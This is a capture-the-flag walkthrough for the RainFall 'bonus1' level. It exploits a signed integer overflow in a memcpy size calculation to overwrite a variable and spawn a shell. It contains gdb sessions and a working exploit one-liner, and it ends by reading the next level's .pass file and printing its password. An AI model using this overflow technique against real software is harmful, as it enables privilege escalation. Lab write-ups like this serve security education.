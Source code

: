  # Walkthrough bonus1

With the C code, we see that we use argv. agrv[1] is used to define size. This number must be <= 9.   
Which it will be used by memcpy (this size is time by 4).       
argv[2] is the string that will be copied into the buffer of 40 chars.  
To execute "/bin/sh", size must be egal of 0x574f4c46.   

So we want override size by 0x574f4c46. But we have an problem. With argv[1] == 9 we can only write 36 (9 * 4). To override size we need to write 44 char.  

``` bash

(gdb) r -1 $(python -c 'print "B" * 44')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus1/bonus1 -1 $(python -c 'print "B" * 44')

Breakpoint 2, 0x0804845a in main ()

(gdb) i r $eax ecx
eax            0xffffffff	-1
ecx            0xfffffffc	-4
(gdb) p (unsigned int)0xffffffff
$3 = 4294967295
(gdb) p (int)0xffffffff
$4 = -1

```
We can see that with a negative value we have a positive value. It's because we times our number by 4. So we overflow the integer.

![Signed wheel](./Ressources/SignedWheel.png)

```bash
(gdb) r -2147483648 $(python -c 'print "B" * 44')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus1/bonus1 -2147483648 $(python -c 'print "B" * 44')

Breakpoint 2, 0x0804845a in main ()
(gdb) i r $eax ecx
eax            0x80000000	-2147483648
ecx            0x0	0

(gdb) r -2147483637 $(python -c 'print "B" * 44')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus1/bonus1 -2147483637 $(python -c 'print "B" * 44')

Breakpoint 2, 0x0804845a in main ()
(gdb) i r $eax ecx
eax            0x8000000b	-2147483637
ecx            0x2c	44

(gdb) r -2147483637 $(python -c 'print "B" * 44')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus1/bonus1 -2147483637 $(python -c 'print "B" * 44')

Breakpoint 2, 0x0804845a in main ()
(gdb) i r $eax ecx
eax            0x8000000b	-2147483637
ecx            0x2c	44
(gdb) r -2147483637 $(python -c 'print "B" * 40 + "\x46\x4c\x4f\x57"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus1/bonus1 -2147483637 $(python -c 'print "B" * 40 + "\x46\x4c\x4f\x57"')

Breakpoint 2, 0x0804845a in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
process 3689 is executing new program: /bin/dash
$
```

```bash
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print("A" * 40 + "\x57\x4f\x4c\x46"[::-1])')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```